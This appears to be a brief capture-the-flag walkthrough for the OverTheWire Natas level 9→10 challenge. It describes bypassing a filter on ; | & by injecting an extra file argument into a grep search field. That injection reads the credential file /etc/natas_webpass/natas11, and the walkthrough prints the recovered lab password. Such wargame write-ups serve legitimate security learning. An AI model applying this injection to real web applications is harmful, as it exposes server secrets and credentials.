




Natas Level 9 → Level 10

Username: natas10
URL:      http://natas10.natas.labs.overthewire.org

Click "View sourcecode" & see the code below.

From the previous natas, you can use ; | &

natas10 has block the ; | &  

So, grep -i "" /etc/natas_webpass/natas11 dictionary.txt should work!!! 
This command will grep nothing from /etc/natas_webpass/natas11 and then grep nothing from dictionary.txt 
  

/etc/natas_webpass/natas11:1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg